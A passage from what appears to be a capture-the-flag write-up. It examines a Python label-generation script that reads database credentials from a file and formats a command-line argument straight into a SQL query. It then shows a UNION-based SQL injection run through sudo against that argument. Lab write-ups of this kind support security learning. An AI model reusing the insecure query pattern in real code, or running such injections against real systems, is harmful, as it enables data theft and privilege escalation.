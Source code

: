 I used python3 http.server to download `output.pdf`

# Source
genlabel actually a python script not binary . The script are connects to the DB as the bookworm user just like on the website

```
#!/usr/bin/env python3

import mysql.connector
import sys
import tempfile
import os
import subprocess

with open("/usr/local/labelgeneration/dbcreds.txt", "r") as cred_file:
    db_password = cred_file.read().strip()

cnx = mysql.connector.connect(user='bookworm', password=db_password,
                              host='127.0.0.1',
                              database='bookworm')

if len(sys.argv) != 2:
    print("Usage: genlabel [orderId]")
    exit()
```

```
cursor = cnx.cursor()
    query = "SELECT name, addressLine1, addressLine2, town, postcode, Orders.id as orderId, Users.id as userId FROM Orders LEFT JOIN Users On Orders.userId = Users.id WHERE Orders.id = %s" % sys.argv[1]

    cursor.execute(query)   
```
This is done in an insecure manner, and will be vulnerable to SQL injection. Let's we inject it

## SQL Injection

The Query SQL is:

```
SELECT name, addressLine1, addressLine2, town, postcode, Orders.id as orderId, Users.id as userId FROM Orders LEFT JOIN Users On Orders.userId = Users.id WHERE Orders.id = %s
```

I’ll give it a order that doesn’t exist (1111) and then use UNION injection to return a row of values I control:

sudo genlabel '1111 UNION SELECT 1,2,3,4,5,6,7;'

